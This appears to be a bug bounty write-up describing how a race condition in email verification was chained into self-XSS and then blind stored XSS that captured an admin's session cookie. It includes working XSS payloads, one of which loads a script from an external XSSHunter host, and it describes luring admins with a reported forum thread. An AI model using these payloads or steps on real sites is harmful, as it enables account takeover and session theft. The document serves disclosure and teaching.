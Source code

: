 You can do that without burp but you may have to try a few times before it works so here is a method to make it work every time:

Start burp and turn intercept on

Now open the verification link you received on lasok@dot-coin.com then switch tab and validate the new email on the website (aa@aa.com) then turn intercept off. Burp will forward the 2 requests together and that’s what we want.

aa@aa.com was verified and I could now login to my account.

In this case what you should do is to register with email@company.com, sometimes you can get access to some cool admin features.

But unfortunately for me it wasn’t the case here but I still reported it and as expected, closed as P5.


Now we have to escalate this to give a valid impact in order to be a valid bug.

After some minutes I tried to escalate this to XSS.

Did the same process but instead of entering a fake email in the second step I entered : <svg/onload=alert(1)> and XSS triggered. But since my email is private and only me can see it, this is a Self-XSS.

So we went from Race-Condition (P5) to Self-XSS (P5).

Now, what ?

I remembered that this private program also had a forum dedicated to their site.

I did the same process again but instead of entering a regular XSS payload I entered a Blind XSS payload. Mine was : “></script><script src=//m0m0x01d.xss.ht></script> (Tip : Use xsshunter.com tool to find blind xss)

I then went to the forum, created a new weird thread (to be sure that the admin will delete it) and reported my own thread to be sure that the admins see it.

Within hours I got an email alerting me that someone triggered my XSS.

Reading the XSSHunter report :

Triggered at : https://www.company.com/profile/XXXX

Referer : https://forums.company.com/XX/index.php?/topic/123456--/

The admin saw my weird thread, then he clicked on my username → redirected to my profile → XSS triggered

The reason why it triggered was that the admins had the feature to see the email of any user only by visiting their profile.

I now had the session cookie of the admin and I could use it to get access to the internal panel.

So that’s how I went from a P5 Race Condition to a P5 Self XSS to a P2 Blind XSS.

    Take-away :

    1/ If you’r able to use any email without verification, try registering with email@domain.com you may get access to some admin features

